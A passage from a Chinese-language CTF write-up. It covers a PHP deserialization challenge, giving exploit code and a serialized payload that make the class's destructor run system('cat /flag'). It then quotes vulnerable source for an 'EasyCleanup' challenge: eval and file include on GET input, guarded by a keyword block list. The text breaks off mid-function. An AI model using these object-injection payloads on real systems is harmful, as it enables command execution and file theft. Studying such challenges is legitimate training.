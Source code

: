 HelloPhp这个类用到了两个魔术函数,_construct()和_destruct()，在`__destruct`方法中,使用成员变量`$a`作为参数`$b`作为变量函数名执行代码，在代码最后接收GET参数并进行反序列化。

只需要通过构造`$a`与`$b`组成危险代码,然后构造HelloPhp类的序列化对象即可



```php
<?php
class HelloPhp
{
    public $a='cat /flag';
    public $b='system';
}
$c=new HelloPhp;	
echo serialize($c);

```

```php
O:8:"HelloPhp":2:{s:1:"a";s:9:"cat /flag";s:1:"b";s:6:"system";}
```

# EasyCleanup

- 文件包含

```
<?php

if(!isset($_GET['mode'])){
    highlight_file(__file__);
}else if($_GET['mode'] == "eval"){
    $shell = $_GET['shell'] ?? 'phpinfo();';
    if(strlen($shell) > 15 | filter($shell) | checkNums($shell)) exit("hacker");
    eval($shell);
}


if(isset($_GET['file'])){
    if(strlen($_GET['file']) > 15 | filter($_GET['file'])) exit("hacker");
    include $_GET['file'];
}


function filter($var): bool{
    $banned = ["while", "for", "\$_", "include", "env", "require", "?", ":", "^", "+", "-", "%", "*", "`"];

    foreach($banned as $ban){
        if(strstr($var, $ban)) return True;
    }

    return False;
}

function checkNums($var): bool{
    $alphanum = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $cnt = 0;
    for($i = 0; $i < strlen($alphanum); $i++){
        for($j = 0; $j < strlen($var); $j++){
            if($var[$j] == $alphanum[$i]){
                $cnt += 1;
                if($cnt > 8) return True;
            }
        }
    }
```